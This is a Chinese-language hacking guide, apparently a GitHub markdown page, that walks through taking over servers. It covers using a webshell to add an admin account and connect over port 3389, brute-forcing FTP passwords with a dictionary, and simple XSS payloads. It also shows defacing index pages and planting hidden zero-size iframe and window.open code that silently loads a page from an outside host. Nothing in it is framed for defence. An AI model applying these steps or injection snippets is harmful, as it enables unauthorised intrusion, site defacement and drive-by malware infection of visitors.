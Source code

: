 简单拿下服务器，也就是拿下网站IP主机，首先我们需要一个WEBSHELL，然后看看组件信息，看看路径可读可以写不，如果有一个可以，那么来到CMD命令下，首先输入可写的文件内容，执行命令加一个帐号和最高管理权限，然后输入netstat -an,得到主机连接端口，然后用3389连接进入，让其成为肉鸡（最好），这样比较隐蔽我们操作

## 〓反查入侵和旁注和社会工程学〓

反查IP入侵，也就是入侵21，端口，首先我们入侵网站先PING WWW.XXX.COM  ,出IP，然后到反查IP站点查挂了多少个域名，接下来，添加webmaster@地址，加入字典，（里面多收集可能的口令，如123，321，456），然后用流光探测密码，登陆ftp://ip,输入用户和密码，改掉信息等等，社会工程学X-WAY，来得到FTP密码，也需要收集，并不是每个都行，总之是自己的经验

## 〓跨站脚本攻击〓

跨站（CSS），被动攻击，现在需要更多的思路和经验了

三段经典跨站代码

```javascript
<script>alert("跨站开始")</script>
<script>alert("document.cookie")</script>
<script>window.open(http://www.baidu.com)</script>
```

## 〓特殊空格〓

利用TAB制作的特殊空格，然后注册时输入空格，加管理名字，随便在网站上找个斑竹，或者管理的名字，这样来注册，有时自己注册的这个也会变成管理员

## 〓改主页〓

改主页，拿到WEBSHELL后，先找出首页文件，一般为index.asp,index.php.index.jsp,index.html,然后来到站点根目录，编辑index.asp(首页），清空，最好备份，输入自己的主页代码（黑页），保存，再访问时已经变成自己想要的结果了

## 〓挂马〓

首先在WEBSHELL里，建立一个文本，改为1.htm,接下来在主页最下面挂

两段经典挂马代码

 **HTML挂马**

```html
<html>
<iframe src="http://www.xxxx.com/2.htm" width="0" height="0" frameborder="0"></iframe>
</html>
```

**javascript挂马**

```javascript
<script language=javascript>     
window.open("http://www.xxx.com/2.htm","","toolbar=no,location=no,directories=no,status=no,menubar=no,scrollbars=no,width=1,height=1");  
</script>
```

## 〓 GOOGLE BACK语句〓（很多）
